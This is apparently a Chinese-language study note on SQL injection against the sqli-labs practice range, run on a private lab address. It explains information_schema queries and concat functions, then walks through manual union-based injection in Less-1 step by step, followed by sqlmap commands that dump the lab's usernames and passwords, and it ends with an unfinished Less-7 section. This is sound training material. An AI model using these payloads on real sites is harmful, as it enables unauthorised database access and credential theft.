

# 知识点

### 使用 `information_schema` 数据库

```sql
USE information_schema;
```

### 查看 `information_schema` 数据库中的所有表

```sql
SHOW TABLES;
```

### 查看所有表中的所有字段

```sql
SELECT column_name FROM information_schema.columns;
```

### 查询 `msgboard` 表中的所有字段

```sql
SELECT COLUMN_NAME 
FROM information_schema.COLUMNS 
WHERE TABLE_NAME = 'msgboard';
```

### 使用 `concat()` 函数拼接多个字符串

```sql
SELECT CONCAT('M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------+
| concat('M','y','S','Q','L') |
+-----------------------------+
| MySQL                       |
+-----------------------------+
```

### 使用 `concat_ws()` 函数拼接多个字符串

```sql
SELECT CONCAT_WS('', 'M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------------+
| concat_ws('','M','y','S','Q','L') |
+-----------------------------------+
| MySQL                             |
+-----------------------------------+
```

### 使用 `group_concat()` 函数将多行连接成一组

```sql
SELECT GROUP_CONCAT(actor) 
FROM moviesdata.allmovies;
```

### SQL 注入示例

```sql
1'union select 1,table_name from information_schema.tables where table_schema='msgboard' -- qwe
```


# 靶场第一关

### 手动注入

- 首先来到这个页面传入参数``?id=1``,发现可以看到账号和密码,下面开始sql注入


- 传入单引号``'``,看看闭合是否会产生语法错误(这里很明显报错了),说明是存在sql注入的

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

您的 SQL 语法中有错误;检查与您的 MySQL 服务器版本相对应的手册，了解在第 1 行的 ''1'' LIMIT 0,1' 附近使用的正确语法
```



- 判断有sql注入以后,我们开始查看数据库有多少列(使用``order by 4--+``和``order by 3--+``,主要是使用``二分法``)

```http
http://192.168.77.131/master/Less-1/?id=1'order by 4--+
```


```http
http://192.168.77.131/master/Less-1/?id=1'order by 3--+
```


```
到这里可以判断出数据库是有3列数据的
```

- 然后我们需要知道页面所显示的``name``和``password``属于数据库中的第几列(``?id=-1'union select 1,2,3 --+``)

- 为啥这里id是一个``不存在``的数字?

- 在SQL注入攻击中，使用一个不存在的ID（例如 `-1`）是一个常见的技巧。具体来说，这是为了``避免查询返回正常的结果``，让查询进入到我们希望测试或利用的状态。这里有几个关键点解释为什么使用一个不存在的数字，如 `-1`：

  1. **绕过正常逻辑**：如果选择了一个``存在的ID``，可能会导致数据库返回某些正常的结果，而不是我们希望利用的漏洞。选择一个不存在的ID（如 `-1`），通常会导致数据库没有返回的记录，从而``不会干扰我们插入的其他SQL代码的执行和测试``。

  2. **触发SQL注入点**：通过使用``不存在的ID``，我们可以确保SQL查询会继续执行后续的部分，如 `union select` 子句。因为没有记录匹配这个ID，数据库的处理逻辑会集中在接下来的联合查询语句上，从而使我们能够查看 `union select` 返回的内容。

  3. **通用性**：`-1` 是一个在许多情况下都不会与任何实际存在的ID匹配的数字，因此它被广泛使用来避免意外匹配数据库中的某些记录。

  在你提供的语句 `id=-1'union select 1,2,3 --+` 中，`-1` 确保了 `id` 字段不会匹配到数据库中的任何实际记录，使得后面的 `union select 1,2,3` 的结果更容易被测试和利用。

```http
http://192.168.77.131/master/Less-1/?id=-1'union select 1,2,3 --+
```


```
到这里可以知道name是第2列,password是第3列
```

- 那么现在就可以从``第二列``或者``第三列``查询出数据库名称(``?id=-1'union select 1,database(),database() --+``)


```
在这里我们可以看到数据库名称为-----> security
```

- 知道数据库名称``security``我们就可以使用``information_schema``查询该数据中所有的表和列
- ``?id=-1'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+``)


- 查看字段名``?id=-1'union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),3 --+``


- 到这里可以发现它有三个表``emails,referers,uagents,users``,知道数据库的``表名(emails,referers,uagents,users)``和``列名(id,username,password)``,那就只剩下获取表数据了

- `0x3a` 是十六进制表示的一个字符编码。在这个特定的例子中，`0x3a` 代表 ASCII 码中的冒号 `:` 字符。这里是怎么用的原因：

  1. **表示特殊字符**：在SQL注入攻击中，有时候需要在SQL查询中插入特殊字符。直接使用字符可能导致语法错误或不易阅读，因此使用十六进制的方式表示字符可以避免这些问题。

  2. **连接字段**：在 `group_concat` 和 `concat_ws` 函数中，`0x3a`（即冒号 `:`）被用作分隔符，将多个字段连接在一起。例如，`concat_ws(0x3a,username,password)` 将 `username` 和 `password` 字段的值用冒号连接起来，例如输出 `username:password` 这样的格式。

  3. **避免编码问题**：直接使用字符可能在某些环境中受到限制或者被过滤掉，使用十六进制编码可以更好地绕过这些限制，使得攻击更加稳定和通用。

  所以，在这个SQL注入示例中，`0x3a` 用于将 `username` 和 `password` 字段连接起来，并以 `:` 作为分隔符，这样可以在结果中清晰地看到每个用户名和密码的对应关系。

  ```http
  http://192.168.77.131/master/Less-1/?id=-1'union select 1,group_concat(concat_ws(0x3a,username,password)),3 from security.users --+
  ```

  

### 使用sqlmap(不建议使用,只是想把知识关联起来)

- cmd执行``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" --dbs``显示数据库


- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security --tables``显示表名

```cmd
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password --dump`` 导出数据库

```cmd
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| Dumb     | Dumb       |
| Angelina | I-kill-you |
| Dummy    | p@ssword   |
| secure   | crappy     |
| stupid   | stupidity  |
| superman | genious    |
| batman   | mob!le     |
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| dhakkan  | dumbo      |
| admin4   | admin4     |
+----------+------------+
```

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password``导出数据库

```cmd
SELECT username, password FROM security.users [13]:
[*] Dumb, Dumb
[*] Angelina, I-kill-you
[*] Dummy, p@ssword
[*] secure, crappy
[*] stupid, stupidity
[*] superman, genious
[*] batman, mob!le
[*] admin, admin
[*] admin1, admin1
[*] admin2, admin2
[*] admin3, admin3
[*] dhakkan, dumbo
[*] admin4, admin4
```

# 靶场第七关

- ``$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";``--->对我来说难度挺大的,我们先拿着sql语句分析,好吧暂时分析不出什么

- http://192.168.77.131/master/Less-7/?id=14
- http://192.168.77.131/master/Less-7/?id=15


- 这里可以发现``id``应该只有``14``个

- http://192.168.77.131/master/Less-7/?id=1'))order by 3 --+


- http://192.168.77.131/master/Less-7/?id=1')) UNION SELECT 1,2,3--+

